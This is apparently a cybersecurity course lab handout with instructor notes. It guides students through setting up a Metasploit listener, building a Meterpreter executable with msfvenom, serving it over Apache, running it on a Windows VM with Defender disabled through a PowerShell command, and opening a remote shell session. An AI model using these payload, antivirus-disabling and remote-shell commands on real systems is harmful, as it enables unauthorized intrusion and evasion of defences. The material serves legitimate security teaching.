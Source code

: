 ## Activity File: Metasploit
In this activity, you will use Metasploit and MSFvenom to open a shell on your Windows VM.

### Instructions 

1. Login to the Kali machine with credentials `root/toor`

2. Click on the Metasploit icon on the taskbar

Explain to students that unlike most C2 frameworks, Metasploit is purely commandline based and has no web application or GUI. 

3. Once metasploit is started, type `use exploit/multi/handler` 

Explain to students that in order for the payload/agent we're going to craft to communicate back to Metasploit, we need to start something called a 'listener' that "listens" for the payload to talk back.

- Without starting a listener, the C2 server will not be able to communicate with any agents.

- Metasploit works through its use of "modules". In this case, we're using the `exploit/multi/handler` module which is Metasploit's listener module.

4. Type `ip addr` to get the IP address of the Kali machine, then type `set LHOST <kali ip address>`

5. After the LHOST (listener host) is set, set the LPORT by typing `set LPORT 4444`

![](/Images/01.Metasploitoptions.PNG)

6. Once LPORT and LHOST is set, start the listener by typing `run -j`. The `-j` option sets it to run in background.

7. Next, generate the agent/payload by typing `msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe` 

![](/Images/02.Metasploitmsfvenom.PNG)

8. Clear out the /var/www/html/ folder: `rm /var/www/html/*`

9. Move the payload to /var/www/html: `mv shell.exe /var/www/html/`

10. Start the apache web service by typing `service apache2 start`

![](/Images/03.apache.PNG)

11. Now move from your Kali VM to your Windows VM. Open an web browser and browse to your Kali's IP address. Download the `shell.exe` payload and execute it.

- Note: Windows Defender should be turned off. If not turned off, open PowerShell as administrator and run `Set-MPPreference -DisableRealTimeMonitoring $true` 

![](/Images/04.Windows.PNG)

12. Back in Kali, you should see a message "Meterpreter Session 1 opened". To interact with this session, type `sessions -i 1`

![](/Images/05.Session.PNG)

13. You now have a shell into the Windows machine, with Metasploit operating as the C2 server. Gather the IP address of the Windows machine by typing `ipconfig`
